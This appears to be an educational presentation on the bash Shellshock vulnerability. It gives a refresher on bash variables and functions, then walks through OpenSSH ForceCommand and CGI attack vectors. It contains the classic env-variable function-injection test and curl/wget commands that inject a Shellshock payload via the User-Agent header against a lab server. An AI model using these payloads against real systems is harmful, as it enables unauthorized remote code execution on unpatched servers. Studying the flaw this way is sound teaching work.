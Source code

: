 # Presentation
## Bash Overview
Before we talk about the shellshock exploit, lets have a quick refresher about bash
### Variables

Bash treats everything as a string by default. You can access variables by appending '$' in front of a variable name
```bash
foo=bar
echo $foo
# bar

foo="bar"
echo $foo
# bar
```

You can also set variables to the output of commands using $(...)
```bash
message=$(fortune)
echo $message
# Your mode of life will be changed for the better because of new developments.
```

However, any strings with spaces need quotes for proper assignment
```bash
foo=bar bar
# bar: command not found

foo="bar bar"
echo $foo
"bar bar"
```

### Environment Variables
Environment variables store data used by the operating system and other programs. When you open a new shell session, these pre-defined variables will be ready for your use. 

For example, `$HOME` contains your home directory, `$PATH` is the list of directories that programs have access to, etc.


### The `env` command
`env` is a command that allows you to manipulate environment variables. One way `env` can be used is to set environment variables for commands:
```bash
$ env foo=bar printenv 
HOSTTYPE=x86_64
LANG=C.UTF-8
PATH=/home/alice:/usr/local/bin
TERM=xterm-256color
HOME=/home/alice
USER=alice
LOGNAME=alice
SHELL=/usr/bin/bash
foo=bar
```
Here we run `printenv`, which prints all environment variables, after using `env` to make a new environment variable `foo` that equals `bar`, which appears in the `printenv` output as expected.

### Function Declaration
```bash
function x {
    echo "hello world"
}
x () {
    echo "hello world"
}

x () { echo "hello world" ; }

x='() { echo "hello world"; }'
```
These four function declarations are equivalent, though the last one is only valid for older versions of bash.

## Shellshock
Shellshock is a series of 6 exploits that all take advantage of the bash parser to cause unintended code execution. They affect bash versions 1.03 to 4.3, which is 25 years of bashs since 1989!

The exploit looks something like this:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
This command runs `echo this is a test` on a new instant of bash with an environment variable `x='() { :;}; echo vulnerable'`. The first part of the variable definition, `() { :;}`, declares an empty function, and the function declaration is followed by a newline and extra code, `echo vulnerable`.

If your system prints `vulnerable` in addition to `this is a test`, that means you are susceptible to a shellshock attack. This occurs because in older versions of bash, the variable parser would convert any functions defined as variables into code blocks and execute them.

In this case, `x='() { :;}; echo vulnerable'` would be converted by the bash parser into `x () { : ; }; echo vulnerable`, and then execute this line of code. The problem is, bash interprets `;` as a newline, which means it will also execute the code following the function declaration.

For very, very obvious reasons, this is incredibly bad.

=======

## Attack Vector 0: OpenSSH RCE
SSH (Secure Shell) is a service that allows user to securely access a shell on a remote computer. Typically, it is good security practice to only grant services the minimum required permissions. 

Instead of allowing a service to execute arbitrary commands over SSH, a "Forced Command" can be used to restrict a user to only executing one command. When a Forced Command is specified, this user should not be able to execute any other commands.

### Conditions for Exploit
0. Victim's bash version must be of a known vulnerable version (through 4.3)
1. The adversary should be able to control the environment variables being passed
2. A new subprocess/bash shell must be spawned

### Walkthrough
To begin our exploit, we will first examine the behavior of environment variables in BASH to see how we can manipulate the ability in BASH to save functions as environment vars.

To test for whether your system is vulnerable, you can run the following line, which stores a function consisting of two echoes and a bash call as an environment variable `x`.
```bash
$env x= ‘() { :;}; echo shellshocked’ bash –c “echo vulnerable”
```
If your bash shell prints out `shellshocked` and `vulnerable`, then uh-oh!

In addition, OpenSSH has a “ForceCommand” feature, where a fixed command is executed when the user logs in, instead of just running an unrestricted command shell. The fixed command is executed even if the user specified that another command should be run.

Now that we've confirmed the target system is vulnerable, let's get started with the exploit!
  

## Attack Vector 1: CGI Script

CGI is Common Gateway Interface, a specification that enables web servers to execute external programs, usually scripts. For example, you can build webpages and forms using shell scripts:
```sh
#!/bin/bash

# hello.sh

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>Hello World</title>'
echo '</head>'
echo '<body>'
echo 'Hello World'
echo '</body>'
echo '</html>'

exit 0
```
It looks a lot like this shell script is just outputting HTML, which is exactly what it does.

If you started a webserver and navigated to the file, it would look something like this:
![hello.png](pictures/hello.png)

We can intercept the request in burp suite, and it looks something like this:
![burpreq.png](pictures/burpreq.png)

We can see right now that we have 8 different headers to mess around with. Out of these, only one is passed to the CGI script, User-Agent, while the rest are handled by the server.

If we send the request to the Burp Repeater, we can edit headers and track the responses we get:
![repeater.png](pictures/repeater.png)

Lets try editing User-Agent to test if this server is vulnerable to shellshock:
![shocked.png](pictures/shocked.png)

Voila!

Bonus: Would you believe that Burp Suite isn't needed to do a cgi-based shellshock attack?

Both `curl` and `wget` can be used to send HTTP requests with edited headers and view the response.
```bash
curl -H 'User-Agent: () { :; }; echo; echo vulnerable' http://192.168.56.101:8000/cgi-bin/hello.sh
```
The `-H` flag lets us specify what headers to change in our request. 
```bash
wget -qO- --header="User-Agent: () { :; }; echo; echo vulnerable" http://192.168.56.101:8000/cgi-bin/hello.sh
```
The `--header` acts like curl's `-H` flag, and `-qO-` spits the response to stdout. Both output the following:
```
vulnerable
Content-type: text/html

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Hello World</title>
</head>
<body>
Hello World
</body>
</html>
```
Note: When we send the modified header with `curl` or `wget`, we need to add an extra `echo` that we didn't need to do with Burp Suite, because we need an extra newline otherwise the web-server fails to parse the header.